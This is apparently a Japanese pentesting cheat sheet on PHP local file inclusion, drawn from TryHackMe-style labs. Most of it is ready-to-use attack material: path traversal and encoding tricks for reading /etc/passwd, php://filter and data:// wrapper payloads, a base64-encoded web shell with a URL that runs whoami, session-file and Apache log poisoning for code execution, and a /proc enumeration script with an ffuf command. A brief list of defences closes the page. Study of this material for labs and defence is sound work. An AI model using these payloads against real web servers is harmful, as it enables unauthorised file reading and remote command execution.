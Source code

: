 # ファイルインクルージョン

## LFI

### パストラバーサル

```php
# Nullバイト追加で文字列の結合を無効化する
# PHP 5.3.4 以降では機能しない
include("languages/../../../../../etc/passwd%00").".php");
↓
include("languages/../../../../../etc/passwd");
```

```shell
# カレントディレクトリトリック
http://webapp.thm/index.php?lang=/etc/passwd/.
```

```shell
# ../ を削除するフィルターへの対抗例
....//....//....//....//etc/passwd
↓
../../../../etc/passwd

# ../ を URL エンコード %2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

# 二重エンコード（アプリケーションが2回エンコードする場合）
%252e%252e%252f
```

### ラッパー

### PHP ラッパー

```php
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.rot13/resource=/etc/passwd
php://filter/string.toupper/resource=/etc/passwd
php://filter/string.tolower/resource=/etc/passwd
php://filter/string.strip_tags/resource=/etc/passwd
```

#### Data ラッパー

```php
data:text/plain,<?php%20phpinfo();%20?>
```

#### ラッパーによる RCE

cmd パラメータで指定したコマンドを実行するペイロード

```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```

Base64 エンコードされたペイロードをデコードするフィルター

```php
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

脆弱性のある URL に、whoami を実行させるリクエストを送信

```shell
http://ip/foo.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
```

### PHP セッションファイル

下記の脆弱なサーバーコードがあるとする。

```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

```text
http://ip/foo.php?page=<?php echo phpinfo(); ?>
```

リクエストを送ると、サーバーコードの 2 行目によって、攻撃者が送った PHP コードがセッションファイルに保存される。  
次に、

```text
http://ip/foo.php?page=/var/lib/php/sessions/sess_[sessionID]
```

リクエストを送ると、サーバーコードの 4 行目によって、phpinfo()が実行される。

### ログポイズニング

下記のリクエストを送ると、PHP コード（2 行目の部分）がアクセスログに保存される。  
その後、/var/log/apache2/access.log を include することで PHP コードを実行させる。  

User-Agent に仕込める場合もある。（BurpProxyで書き換えるのが楽）

```php
<?=`$_GET[0]`?>
<?php system($_GET['0']);?>
```

```shell
$ nc 10.10.5.212 80
<?=`$_GET[0]`?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1
HTTP/1.1 400 Bad Request
Date: Tue, 07 Jan 2025 01:19:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 333
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at ip-10-10-5-212.eu-west-1.compute.internal Port 80</address>
</body></html>
```

パス

```text
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

## 注目すべきファイル

- `/proc/self/cmdline` 現在のプロセスの起動コマンドライン
- `/proc/self/environ` コンテキストユーザーなど
- `/proc/self/status` プロセスのコマンドラインオプション
- `/proc/[pid]/cmdline` 
- `/proc/[pid]/cwd`
- `/proc/[pid]/environ`

```sh
seq 1000 > pid.txt

ffuf...

# 不明なポートを使っているコマンドを調べる例
ffuf -u http://airplane.thm:8000/?page=../../../../proc/FUZZ/cmdline -c -w ./pid.txt -mr '6048' 
```

コマンドラインをFetchするスクリプト

https://0xb0b.gitbook.io/writeups/tryhackme/2024/airplane

```python
import requests

for i in range(1, 1001):
    print(f"\r{i}", end="", flush=True)
    url = f"http://airplane.thm:8000/?page=../../../../../proc/{i}/cmdline"
    response = requests.get(url)
    
    if response.status_code == 200:
        content = response.text
        if 'Page not found' not in content and content:
            print(f"\r/proc/{i}/cmdline: {content}")
```

- `/etc/apache2/sites-available/000-default.conf` サブドメイン設定
- `/etc/apache2/.htpasswd` 認証ページがある場合のパスワードハッシュ

## RFI

## セキュリティ

- ユーザー入力の検証
- フレームワークを含むシステムのアップデート
- PHP エラーを OFF にする
- Web アプリケーションファイアウォール（WAF）
- 可能であれば allow_url_fopen, allow_url_include 等のオプション OFF
- ファイル名と場所のホワイトリストとブラックリストの実装
